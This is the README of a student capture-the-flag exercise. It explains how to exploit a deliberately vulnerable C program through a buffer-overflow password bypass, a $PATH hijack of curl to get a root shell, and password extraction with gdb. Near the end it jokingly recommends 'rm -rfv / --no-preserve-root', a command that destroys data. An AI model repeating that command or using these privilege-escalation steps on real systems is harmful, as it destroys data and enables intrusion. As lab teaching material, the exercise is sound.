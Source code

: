 # Capture the hack
### What is this "game"?
+ This exploit game aims to learn some very basic linux comands and also some low *hacking* knowlage to collect all flags.
+ And also this is project for BPC-IC1.
## How to play
### Initial setup:
+ Clone this repo and cd in its file:
```bash
git clone https://github.com/PrimalMight/IC1_Project.git
smthn=`find $(pwd) -name 'IC1_Project'` && cd $smthn
```
+ Compile totally legit SW:
```bash
sudo gcc -w -g -fno-stack-protector -o launch_me main.c   
sudo gcc -o decryptor decryptor.c 
```
> names ``launch_me`` and ``decryptor`` are optional, but i recommend not changing it. <br>
### Game tutorial:
Start the program with ``./launch_me``.
+ **First flag: Buffer overflow bypass the initial password check!**
	* After the program is started, player is asked for some password, well we dont know the password, se you need to find other way how to gain acces! <br>
	<details>
 	<summary>Hint here!</summary>

  ```
  Maybe try spam of ``A`` (somewhere between 1 and 35) ``1`` on the end?
  ```
	</details>
+ **Second flag: Hijack the path for relative curl call in the program for shell and escalate privilege to root!**
	* ``$ strings exploit_this`` to get information about the compiled file. <br>
	* ``$ curl -I localhost`` - curl is called without full path using $PATH variable! <br>
	* So you need to hijack the curl path and substitute curl for shell. <br>
	<details>
 	<summary>Hint here!</summary>

  ```bash
  strings launch_me
  echo /usr/bin > /tmp/curl
  #this one is easy, give all privileges to curl (use chmod)
  export PATH=/tmp:$PATH
  #cd back to the repo file
  which curl
  #launch the compiled program with ./launch_me
  #enter the password overflow that worked from first flag
  #choose ``y`` on "do you want to check fo running http localhost service (y/n)"
  #execute ``whoami`` command to make sure, you have root privileges
  ```
	</details>
	
+ **Third flag: Extract the password from memory using gdb tool and use this password to decrypt ``riddle_me_this_batman.txt`` file containing final riddle for batman!**
	* There are two parts player needs to do.
	* First, create another .txt file and with echo add some text into it (it is needed to do this, because it is the unix way of adding text to the file).
	```bash
	touch test.txt; echo "We are no strangers to love, You know the rules and so do I!"
	```
	* launch compiled programme with gdb and try to extract password from memmory.
	```bash
	gdb launch_me
	break <name_of_the_function_player_need_to_break>
	```
	<details>
 	<summary>Hint here!</summary>

  ```bash
  gdb lanch_me
  (in gdb) break encrypt_file
  (in gdb) #answer ``y`` to "Enable debuginfo for this session(y or [n])"
  (in gdb) run
  (in gdb) #enter the "password" from first flag
  (in gdb) #answer ``n`` to "want to check for local service running?"
  (in gdb) #answer ``y`` to "do you want to encrypt file? (y/n)"
  (in gdb) #enter the filename: test.txt (or whatever you choosed to name it)
  (in gdb) x/s password #still in the gdb
  (in gdb) exit
  (in gdb) #answer ``y`` to "Quit anyway?(y or n)"
  ```
	</details>
	
	* Second part is decrypthing the ``riddle_me_this_batman.txt``.
	* To do that, you need once again enter shell with root privileges (second flag) and use password you found above for encryptor to decrypt .txt file.
	```bash
	$ ./decryptor
	> please provide a password: <here_goes_the_password>
	# nano output_plaintext.txt
	```
	* And now you've got all the flags, so there is one final thing you need to do before you leave this VM image, what is the answer for the riddle?.
	* [Click me for answer](https://youtu.be/54P0GQEM4w8)
	<details>
 	<summary>Hint here!</summary>

  ```bash
  $ ./launch_me
  > Do you want to check for runninf http localhost service? (y/n)
  $ y
  # ./decryptor
  > Please prowide a password: <here_goes_the_password>
  # nano output_plaintext.txt
  ```
	</details>
	
	* And now you can leave with style! 
	> I recommend using something like ``rm -rfv / --no-preserve-root``
	
## BPC-IC1 things:

### Vulnerabilities
- [x] Buffer overflow into password check bypass
- [x] curl path hijack into privilege escalation (only with script, just testing...)

